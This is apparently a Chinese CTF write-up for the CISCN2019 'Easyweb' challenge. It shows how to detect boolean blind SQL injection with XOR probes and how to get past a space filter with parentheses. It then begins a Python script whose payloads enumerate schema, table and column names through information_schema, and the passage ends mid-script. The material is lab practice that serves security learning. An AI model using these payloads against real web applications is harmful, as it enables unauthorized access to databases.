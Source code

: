 ```yaml
---

title: 日常练习33——盲注脚本

date: 2021-05-13 23:02:44

tags: 练习

categories: test83

---
```

做了一道经典的盲注题目，积累一个这种类型盲注的脚本。  

# [CISCN2019 总决赛 Day2 Web1]Easyweb  

进入题目发现是查询成绩的界面：  

[![](https://pic.imgdb.cn/item/60a3ca8b6ae4f77d35de35c5.png)](https://pic.imgdb.cn/item/60a3ca8b6ae4f77d35de35c5.png)  

我们分别输入1，2，3知道5都是有回显的，后面的学号就没有回显了，我们输入1^1^1和1^2^1来测试是否存在盲注。  

发现回显不同并成功返回，说明存在盲注，而这个只过滤了空格，这里用括号代替，接下来就是上脚本。  
	
	# -*- coding: utf-8 -*-
	# @Author: jiaoben
	# @Date  :  2020/05/03

	import re
	import requests
	import string
	
	url = "http://f2301815-d05c-45da-a70a-91600495a2c2.node3.buuoj.cn/"
	flag = ''
	
	
	def payload(i, j):
    # 数据库名字
    # sql = "1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1"%(i,j)
    # 表名
    # sql = "1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='ctf'),%d,1))>%d)^1"%(i,j)
    # 列名
    # sql = "1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),%d,1))>%d)^1"%(i,j)